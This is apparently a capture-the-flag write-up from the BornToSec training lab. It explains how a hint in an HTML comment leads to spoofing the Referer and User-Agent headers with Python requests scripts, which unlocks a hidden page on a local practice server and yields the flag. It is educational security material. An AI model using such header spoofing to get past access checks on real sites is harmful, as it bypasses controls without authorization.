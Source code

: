 # How

Clicking on the `BornToSec` copyright mention at the bottom of the page, you're redirected to an hidden page

Pressing CTRL+U to see the source code, you can toggle on `Line wrap`, scroll down at the bottom of the page's code,
and you will be able to see :

```html
<!--
You must come from : "https://www.nsa.gov/".
-->
```

This hints that you must come from the NSA website to access the hidden page, what does that mean ?

When your browser makes HTTP requests, it sends a `Referer` header, its value represents the URL that brought you where you are now.

Changing it with this Python script :

```py
import requests

headers = {
    'Referer': 'https://www.nsa.gov/'
}

resp = requests.get('http://localhost:4242/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f', headers=headers)

print(resp.text)
```

Gives the output source, which now contains this :

```
Let's use this browser : "ft_bornToSec". It will help you a lot.
```

This time, we must change the `User-Agent` header to `ft_bornToSec` to access the hidden page.

```py
import requests

headers = {
    'Referer': 'https://www.nsa.gov/',
    'User-Agent': 'ft_bornToSec'
}

resp = requests.get('http://localhost:4242/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f', headers=headers)

print(resp.text)
```

This time giving us the flag.
